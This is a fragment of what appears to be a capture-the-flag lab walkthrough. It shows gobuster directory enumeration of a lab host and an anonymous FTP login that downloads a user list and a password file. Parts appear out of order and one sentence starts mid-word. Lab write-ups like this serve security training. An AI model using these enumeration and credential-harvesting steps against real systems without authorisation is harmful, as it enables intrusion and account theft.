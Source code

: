 ```
[+] Timeout:                 10s
===============================================================
2023/11/15 18:51:08 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/.htpasswd.php        (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/assets               (Status: 301) [Size: 315] [--> http://10.129.142.51/assets/]
/config.php           (Status: 200) [Size: 0]
/css                  (Status: 301) [Size: 312] [--> http://10.129.142.51/css/]
/dashboard            (Status: 301) [Size: 318] [--> http://10.129.142.51/dashboard/]
/fonts                (Status: 301) [Size: 314] [--> http://10.129.142.51/fonts/]
/js                   (Status: 301) [Size: 311] [--> http://10.129.142.51/js/]
/login.php            (Status: 200) [Size: 1577]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
```

`login.php` is interesting.

    login.php

<span style="color:cyan">**Question 10**</span>: Submit root flag

nce I am logged in on FTP, I can use the `get` command to download two files:

```
cmd: ftp 10.129.142.51
Connected to 10.129.142.51 (10.129.142.51).
220 (vsFTPd 3.0.3)
Name (10.129.142.51:): 

cmd : anonymous

230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

cmd :  ls

227 Entering Passive Mode (10,129,142,51,157,176).
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.

cmd: get allowed.userlist

local: allowed.userlist remote: allowed.userlist
227 Entering Passive Mode (10,129,142,51,159,136).
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
226 Transfer complete.
33 bytes received in 0,000211 secs (156,40 Kbytes/sec)
cmd: get allowed.userlist.passwd

local: allowed.userlist.passwd remote: allowed.userlist.passwd
227 Entering Passive Mode (10,129,142,51,164,162).
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
226 Transfer complete.
62 bytes received in 0,000115 secs (539,13 Kbytes/sec)
```
